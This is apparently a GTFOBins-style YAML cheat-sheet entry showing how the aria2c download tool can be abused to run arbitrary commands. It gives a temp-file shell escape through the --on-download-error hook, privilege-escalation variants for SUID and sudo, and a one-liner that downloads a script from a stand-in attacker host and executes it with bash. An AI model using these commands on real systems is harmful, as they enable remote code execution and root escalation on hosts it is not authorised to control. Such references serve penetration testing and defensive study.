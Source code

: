 ```yaml
---
name: aria2c
description: Note that the subprocess is immediately sent to the background.
functions:
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        aria2c --on-download-error=$TF http://x
    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
      code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        ./aria2c --on-download-error=$TF http://x
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo aria2c --on-download-error=$TF http://x
---
```

